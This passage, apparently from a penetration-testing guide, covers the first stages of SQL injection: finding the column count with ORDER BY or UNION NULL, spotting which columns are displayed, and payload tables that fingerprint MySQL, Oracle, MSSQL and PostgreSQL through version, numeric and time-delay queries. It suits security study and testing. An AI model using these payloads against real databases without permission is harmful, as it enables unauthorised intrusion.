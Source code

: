 First of all, the number of columns returned by the query must be found.
There are two ways to do so:
1. Using the **ORDER BY** clause incrementally (*i.e.* injecting **ORDER BY 1**, then **ORDER BY 2**, then **ORDER BY 3**, ...) until an error occurs or the application does not show any output. The **last successful index** used is the number of columns returned by the query.
2. Using **UNION** incrementally (*i.e.* injecting **UNION NULL**, then **UNION NULL, NULL**, then **UNION NULL, NULL, NULL**, ...). The number of **NULLS** in the first (and only) successful query is the number of columns returned by the query.

After finding out how many columns are returned by the query it is necessary to determine which columns are shown on the **front-end**. To do so, junk data (such as **1** or **\'a\'**) may be used in each column and the front-end must be observed to determine **which** junk data is shown.

### Fingerprinting

Usually, if the webserver runs **Apache** or **Nginx** it is often running on **Linux**, therefore the **DBMS** is likely to be **MySQL**. The same applies to **IIS** webserver usually running **MSSQL** on **Windows**. However this is not always the case.

The following queries may be tried to infer the type of **DBMS** being attacked.

#### MySQL

|    **Payload**   |          **When to use**         | **Expected output** | **Wrong output** |
|:----------------:|:--------------------------------:|:-------------------:|:----------------:|
| SELECT @@version |  Full query output is available  |     DBMS version    |       Error      |
| SELECT POW(1, 1) | Only numeric output is available |          1          |       Error      |
|  SELECT SLEEP(5) |       Output is not visible      |  0 after 5 seconds  |     No delay     |

#### Oracle

|                          **Payload**                          |          **When to use**         | **Expected output**   | **Wrong output** |
|:-------------------------------------------------------------:|:--------------------------------:|-----------------------|------------------|
| SELECT banner FROM v$version; SELECT version FROM v$instance; |  Full query output is available  |      DBMS version     |       Error      |
|                          BITAND(1, 1)                         | Only numeric output is available |           1           |       Error      |
|    SELECT dbms_pipe.receive_message((\'a\'), 5) FROM dual;    |       Output is not visible      | \'a\' after 5 seconds |       Error      |

#### Microsoft SQL Server

|        **Payload**        |          **When to use**         | **Expected output** | **Wrong output** |
|:-------------------------:|:--------------------------------:|---------------------|------------------|
|      SELECT @@version     |  Full query output is available  |     DBMS version    |       Error      |
|         SQUARE(1)         | Only numeric output is available |          1          |       Error      |
| WAITFOR DELAY \'0\:0\:5\' |       Output is not visible      |   5 seconds delay   |       Error      |

#### PostgreSQL

|        **Payload**       |          **When to use**         | **Expected output** | **Wrong output** |
|:------------------------:|:--------------------------------:|---------------------|------------------|
|     SELECT version()     |  Full query output is available  |     DBMS version    |       Error      |
| SELECT 1/(1-pg_sleep(0)) | Only numeric output is available |          1          |       Error      |
|    SELECT pg_sleep(5)    |       Output is not visible      |   5 seconds delay   |       Error      |
